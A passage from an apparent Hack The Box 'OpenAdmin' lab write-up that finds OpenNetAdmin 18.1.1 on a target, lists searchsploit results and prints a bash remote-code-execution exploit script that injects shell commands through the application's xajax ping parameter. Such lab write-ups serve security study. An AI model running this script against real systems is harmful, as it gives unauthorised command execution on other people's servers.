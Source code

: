 We found a few folders. Most of them contain static resources. 

But **/ona/** looks interesting as it appears to be a PHP application.

![ona homepage](images/openadmin/onahome.png)

The application is **OpenNetAdmin version 18.1.1**.

## OpenNetAdmin RCE Exploit

[OpenNetAdmin](https://opennetadmin.com/) is a network management tool that offers a database managed inventory of your IP network.

There is one RCE exploit available for the version installed (18.1.1).

```
root@kali:~/htb/openadmin# searchsploit opennetadmin
<SNIP>
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)                                         | exploits/php/webapps/47772.rb
OpenNetAdmin 18.1.1 - Remote Code Execution                                                          | exploits/php/webapps/47691.sh
```

### Understanding The Exploit

This is the exploit script.

```
#!/bin/bash

URL="${1}"
while true;
do
 echo -n "$ "; read cmd
 curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```
